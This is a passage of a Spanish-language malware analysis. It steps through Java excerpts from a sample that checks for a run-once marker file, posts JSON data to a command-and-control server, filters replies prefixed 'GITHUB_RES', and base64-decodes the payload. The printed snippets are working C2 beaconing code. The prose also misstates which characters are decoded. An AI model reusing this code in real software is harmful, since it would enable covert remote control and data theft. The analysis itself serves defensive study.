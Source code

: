 - Revisa la existencia de un archivo "bandera" para saber si esta rutina ha sido ejecutada anteriormente. De no encontrar el archivo, lo crea para indicar haber llevado a cabo una ejecución. Posteriormente envía la solicitud maliciosa en formato JSON al servidor C2 con los datos mencionados en el punto anterior.

```java
try {
  if (sec_path.length() > 1) {
      File secFile = new File(sec_path);
      if (secFile.exists())
          System.exit(0);
  }

  HttpRequest request = HttpRequest.newBuilder()
      .header("Content-Type", "application/json; charset=utf-8")
      .version(HttpClient.Version.HTTP_1_1)
      .uri(URI.create(POST_URL))
      .POST(HttpRequest.BodyPublishers.ofString(data.toString()))
      .build();
  HttpClient client = HttpClient.newHttpClient();
  HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
```

- Si la solicitud no es bien recibida (Código HTTP 200) el malware aguarda 5 segundos. A partir de ahora toda comunicación deberá tener en su contenido el string "GITHUB_RES" indicando que es el C2 quién lo envía. Otras respuestas que no incluyan ese patrón son ignoradas.

```java
if (response.statusCode() != 200)
{
  Thread.sleep(5000);
  continue;
}
String resStr = response.body();
if (!resStr.startsWith("GITHUB_RES"))
{
  System.out.println("Data Error");
} else {
```

- Tras el diálogo inicial con el C2 el malware revisará si la respuesta recibida es mayor a 11 caracters. De ser así, tomará los primeros 10 y los decodificará desde base64 y los pasará a formato UTF-8.

```java
if (resStr.length() > 11)
{
    String enc_data = resStr.substring(10);
    byte [] dec_data = Base64.getDecoder().decode(enc_data);
    String org_file = new String(dec_data, StandardCharsets.UTF_8);
    String org_path;
}

```
